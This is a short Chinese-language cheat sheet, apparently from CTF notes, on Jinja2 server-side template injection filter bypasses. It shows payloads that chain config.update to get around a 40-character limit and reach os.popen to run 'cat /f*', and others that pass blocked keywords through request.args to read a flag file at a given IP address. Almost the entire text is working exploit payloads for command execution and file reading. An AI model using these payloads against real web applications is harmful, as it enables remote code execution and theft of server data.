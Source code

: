


^
## **长度限制绕过**
set+update方法绕过长度限制最大长度40
可以使用jinja2中的set+update方法来分段保存payload，使用方法如下
```
{%set x=config.update(a=config.update)%}   //此时字典中a的值被更新为config全局对象中的update方法
{%set x=config.a(f=lipsum.__globals__)%}   //f的值被更新为lipsum.__globals__
{%set x=config.a(o=config.f.os)%}          //o的值被更新为lipsum.__globals__.os
{%set x=config.a(p=config.o.popen)%}       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /f*").read()}}     
 
 
 
{%print(config)%}                          //输出config字典的所有键值对
{%print(config.o)%}                        //输出
```
类似的
```
{{config.update(f=lipsum.__globals__)}}
{{config.update(o=config.f.os)}}
{{config.update(p=config.o.popen)}}
{{config.p(request.args.c).read()}}&c=cat /f*
```



^
## **使用request对象绕过**
发现系统过滤了class、 subclasses、 read等关键方法。
但是并未过滤request。
```
http://111.200.241.244:62326/{{''[request.args.a]}}?a=__class__

/{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read

类似
{{''.__class__.__mro__[2].__subclasses__()[40].('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt').read()}}

```

